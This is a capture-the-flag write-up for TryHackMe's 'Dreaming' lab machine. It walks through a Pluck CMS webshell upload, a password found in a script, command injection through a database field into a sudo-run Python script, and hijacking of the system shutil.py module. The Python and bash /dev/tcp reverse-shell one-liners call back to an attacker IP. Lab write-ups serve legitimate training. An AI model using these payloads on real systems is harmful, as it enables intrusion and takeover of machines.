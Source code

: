 ```yaml
---
title: Dreaming (THM)
image: /assets/writeups/damn.jpeg
description: Write-up of Dreaming Machine 
date: 2023-11-24 09:00:00 -3000
categories: [tryhackme]
tags: [tryhackme, thm, writeup, easy, machine, linux, code-injection, path-manipulation]
author: trace
---
```


## Reconnaissance

We start with the nmap scan and see the following ports which are open

![[nmapscan.png]](https://i.imgur.com/CpHTNiT.png)

nothing too interesting for now so we run directory bruteforce in order to find something

![[gobuster.png]](https://i.imgur.com/oaDZmeC.png)

and as you can see we do get to see something interesting here `/app` seems kinda interesting to me so we visit that web directory

and it's the pluck cms version 4.7.13

![[pluck.png]](https://i.imgur.com/LpbN4Mp.png)

further we see it asks for the password and upon trying some default creds `password` was the right password so we get a login successful on this

from here on i further start to enumerate this cms and looking for the exploit for this specific version and exploitDB fortunately has one 

![[exploit.png]](https://i.imgur.com/pg1ayL3.png)

so we prepare the payload and run the exploit on this vulnerable cms
and it successfully upload the webshell, 

![[uploadedwebshell.png]](https://i.imgur.com/vu2YwiC.png)

## Foothold (User1)

So upon visiting that webshell we get a revshell to our machine of that webshell and get the `www-user`

![[Screenshot_2023-11-24_15-12-51.png]](https://i.imgur.com/DivQXpN.png)

and now we look for low hanging fruits and potential to get a user so we could get our first flag
and after quite a while of doing some manual enumeration, we find lucien password found **/opt/test.py** 
and can login into SSH with it and get our first flag

![[lucianuser.png]](https://i.imgur.com/h8BTpHk.png)


## Foothold (User2)

from the past enumeration i saw one more script in the `/opt` directory which was owned user `death`.
and lucian can execute  `getDreams.py`  as death user without a password, but we cannot read it.

![[privescloop1.png]](https://i.imgur.com/BjX0bQ3.png)

so now comes the code reviewing part lol which was super easy here we see a mysql connection, but the credentials are redacted

````python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
````

So it goes like: 
1. **MySQL Credentials:** The code defines three variables, `DB_USER`, `DB_PASS`, and `DB_NAME`, to store the MySQL credentials. These credentials are used to connect to the MySQL database.
    
2. `getDreams()` Function: The `getDreams()` function is the main part of the code. It handles the process of connecting to the MySQL database, fetching data from the `dreams` table, and echoing the dreamer and dream information to the console.
    
    a. **Connecting to MySQL:** The `try-except-finally` block is used to handle any errors that might occur during the database connection or query execution. The `connect()` method of the `mysql.connector` library is used to establish a connection to the MySQL database using the provided credentials.
    
    b. **Executing SQL Query:** A cursor object is created using the `connection.cursor()` method. This cursor object is used to execute SQL queries against the database. The `query` variable contains the SQL query to fetch the `dreamer` and `dream` columns from the `dreams` table. The `cursor.execute(query)` method is used to execute the query.
    
    c. **Fetching Dreamer and Dream Information:** The `cursor.fetchall()` method is used to fetch all the rows from the result set of the executed query. Each row contains a tuple of the `dreamer` and `dream` values.
    
    d. **Echoing Dreamer and Dream Information:** If there are no dreams found in the database, an error message is printed. Otherwise, the code loops through the fetched dream information and constructs a command using the `subprocess` library. The command is used to echo the dreamer and dream information to the console.
    
    e. **Closing Cursor and Connection:** Finally, the cursor and connection objects are closed using the `cursor.close()` and `connection.close()` methods, respectively. This ensures that the connection resources are properly released.
    
3. **Calling `getDreams()` Function:** The `getDreams()` function is called at the end of the code to execute the process of fetching and echoing dream information.
   
so we can clearly see command execution happening here

````python
command = f"echo {dreamer} + {dream}"
````

the variables `dreamer` and `dream` come from the mysql connection, so we need to connect to it someway.
now we do more enumeration and finally i see the .bash_history was getting refferred to `/dev/null` so we can read the .bash_histroy
and you can clearly see that is here where the information from getDreams are being retrieved.

![[lucianpass.png]](https://i.imgur.com/fsPFgth.png)

since lucien can insert into table “dreams”, we can insert a payload to get us a reverse shell.

so we create a bash script file that returns a python reverse shell to be executed 
````python
export RHOST="10.9.142.204";export RPORT=7777;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
````

so now what we do is inset into `dreams` table the python payload we have created  

![[valuesinserted.png]](https://i.imgur.com/I8BSWuI.png)

and execute `getDreams.py` as death user to get a reverseshell as `death` user.

````bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
````

and We get the `death` user

![[Screenshot_2023-11-24_16-39-48.png]](https://i.imgur.com/mHoEh4E.png)

now enuemating `morpheus` user's directory we see quite a few interesting things

![[morpheushome.png]](https://i.imgur.com/Burg34H.png)

## Root (User3)

so once i cat that script we can see it is import shutil from somewhere

````bash
death@dreaming:/home/morpheus$ cat restore.py 
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
````

so now we try to grep the `shutil` and we find it here `/usr/lib/python3.8/shutil.py `
reviewing the code and checking for perms we can see it is ran as morpheus user which is our last and final user(root). and we have edit permissions to it

so we put our reverse shell in the `shutil.py`

```python
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.9.142.204/7777 0>&1'\")" > /usr/lib/python3.8/shutil.py
````

And we get the shell after few seconds

![[root.png]](https://i.imgur.com/4hkOVm1.png)

![[rootflag.png]](https://i.imgur.com/hNzfGe3.png)
